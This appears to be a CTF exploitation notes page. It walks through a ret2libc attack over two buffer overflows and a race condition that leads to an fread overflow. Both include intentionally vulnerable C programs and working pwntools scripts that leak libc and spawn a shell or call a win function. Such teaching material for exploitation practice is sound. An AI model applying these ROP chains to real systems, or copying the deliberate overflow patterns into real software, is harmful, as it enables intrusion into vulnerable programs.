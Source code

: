 ```yaml
---
sort : 8
---
```


# Scenarios 

## Multiple BOFs > Ret2Libc
> PIE Disabled & NO Canary 

the idea of the challenge is to leak the libc address from the first BOF, by creating a rop chain that will call `puts` from .plt and pass the `puts.got` as an arguemnt. kowing the leaked address we calculate the libc address and execute system in the next rop chain in the second BOF.


> bianry.c
```c
#include<stdio.h>
#include<string.h>

void init_buffer(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void helper(void) {
  __asm__(
    "pop %rdi\n"
    "ret\n"
  );
}

void BOF(){
    char buf[0x10];
    fgets(buf, 0x100, stdin);
    size_t len = strcspn(buf, "\n");
    buf[len] = '\0';
}

void Exploit(){
    char buf[0x500]; // padding 

    BOF();
    puts("Hii");
    BOF();
}

void main(int argc, char **argv, char **envp){
    init_buffer();
    puts("Hii");
    Exploit();
}
```

> compile
```bash
$ gcc binary.c -o binary -no-pie
```

> solve.py
```python
from pwn import *

exe = ELF("./binary", checksec=False)
libc = ELF("./libc.so.6", checksec=False)  
context.binary = elf = exe
context.endian = 'little'
context.arch = 'amd64' 

io = process([exe.path])

rop = ROP(elf)
rop.raw(b'A'*40)
rop.raw(rop.ret.address)
rop.puts(elf.got["puts"])
rop.raw(elf.sym._start)

log.success(rop.dump())
io.sendlineafter(b'Hii\n', rop.chain())

leak = hex(unpack(io.recvline().rstrip(), "all"))
log.success(f'leaked puts.got = {leak}')
log.success(f'libc.symbols["puts"] = {hex(libc.symbols["puts"])}')

libc.address = int(leak, 16) - libc.symbols["puts"]
log.success(f'libc.address = {hex(libc.address)}')

bin_sh = next(libc.search(b'/bin/sh'))

rop2 = ROP(libc)
rop2.raw(b'A'*40)
rop2.raw(rop.ret.address)
rop2.system(bin_sh)

log.success(rop2.dump())
io.sendlineafter(b'Hii\n', rop2.chain())

io.interactive()
```

<br>
<br>

## Race Condition & BOF
> inspired by 'nahmnahmnahm' challenge - NahamCON CTF 2023

```note 
the challege gives you the ability to create and write into files and pass those files to the running binary !
```

this is a great challenge that shows how using `fread` can lead to a BOF, by passing *nmemb* the value of `0x1000` & not closing the file when done (*will send a seg fault*) using `fclose(fp)`.

```c
size_t fread(void *restrict ptr, size_t size, size_t nmemb, FILE *restrict stream);

// The  function  fread()  reads  nmemb  items  of  data, each size bytes long,from the stream pointed to by stream, storing them at the location given by ptr.

// NOTE :: "nmemb" must equal the size/length of the buffe/array to be written
```

so the main idea was to send a file name that doesn't contains *flag*, and it's not a copy of it, and it's size doesn't exceed 80.

And here where we found the Race Condition problem that we can take advantage of !!

By creating a file (i.e. it's name *empty*) that contains only a single null byte, after the file accepted by the running process it will hold on running `getchar()` function, waiting for us to pass any char.

So we can abuse this by modifing the *empty* file content with a payload of our choice, that leads to a BOF. 

> binary.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

void winning_function(){
  char contents[256]; 
  FILE *f;

  puts("Welcome to the winning function!");
  f = fopen("flag.txt", "r");
  fread(contents, 1uLL, 0x100uLL, f);
  puts(contents);
  fclose(f);
}

void vuln(char *filename)
{
  char buffer[80];
  FILE *f;

  f = fopen(filename, "r");
  if ( f ){
    fread(buffer, 1uLL, 0x1000uLL, f);      // Vulnerable !! 
    printf("%s", buffer);
  }
  else{
    perror("fopen");
  }
}

int main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);

  struct stat st;
  char filename[128];
  memset(filename, 0, sizeof(filename));

  printf("Enter file: ");
  fgets(filename, 127, stdin);
  filename[strcspn(filename, "\n")] = 0;

  if (strstr(filename, "flag")){
    perror("filename contains flag");
    return -1;
  }
  else{

    if ( lstat(filename, &st) == -1 ){
      perror("stat");
    }
    else if ( (st.st_mode & 0xF000) == 40960 ){
      perror("is_symlink");
      return -1;
    }
    else if ( st.st_size <= 80 ){
      puts("Press enter to continue:");
      getchar();                            // we can abuse it !! 
      vuln(filename);
    }
    else{
      perror("File size");
      return -1;
    }
  }

  return 0;
}
```

> compile
```bash
$ gcc binary.c -o binary -no-pie
```

> solve.py
```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./binary", checksec=False)  
context.binary = elf 

def main():
    io = process([elf.path])

    rop = ROP(elf)
    rop.raw(b"A"*104)
    rop.raw(rop.ret.address)
    rop.call(elf.sym.winning_function, [])
    log.success(f'rop.dump() == {rop.dump()}')

    f = open('empty', 'wb'); f.write(b'\x00'); f.close()
    io.sendlineafter(b'Enter file: ', b'empty')

    # while waiting for getchar()

    f = open('empty', 'wb'); f.write(rop.chain()); f.close()
    io.sendlineafter(b'Press enter to continue:\n', b'\n')
    
    io.interactive()

if __name__ == "__main__":
    main()
```

